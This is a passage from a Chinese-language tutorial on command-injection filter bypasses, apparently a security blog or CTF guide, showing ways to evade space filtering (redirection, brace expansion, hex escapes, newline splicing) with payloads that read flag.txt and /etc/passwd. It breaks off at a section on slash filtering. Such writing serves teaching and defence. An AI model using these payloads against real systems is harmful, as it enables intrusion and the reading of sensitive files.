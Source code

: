 ```bash
cat<flag.txt
cat<>flag.txt
```

[![](assets/1708998334-22e5a8434026ce330c43f0ba95f30657.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142954-1f56e42c-d2de-1.png)

##### 思路 2：花括号类

在进行命令注入时如果过滤了空格我们可以使用花括号进行替换，相关的示例及变形如下所示：

```bash
{cat,flag.txt}
```

[![](assets/1708998334-19e7710a4d19f1828c0d8c435d67b5ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143014-2b80f562-d2de-1.png)

##### 思路 3：十六进制

在进行命令注入时如果过滤了空格我们可以使用十六进制进行替换，相关的示例如下所示：

```bash
X=$'cat\x20/etc/passwd'&&$X
```

[![](assets/1708998334-5d49d480a7727fb7fbc910a8fa4e4b0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143035-37ae6db0-d2de-1.png)

##### 思路四：换行拼接

在进行命令注入时如果过滤了空格我们可以使用换行拼接进行替换，相关的示例如下所示：

[![](assets/1708998334-df86bdcb7a6bd40e05a6230e3de84fea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143052-41cebea8-d2de-1.png)

#### 过滤斜杆

在进行命令注入时有时候我们输入的斜杠会被直接过滤处理来规避文件路径的构造，此时我们可以通过一下方式进行绕过：
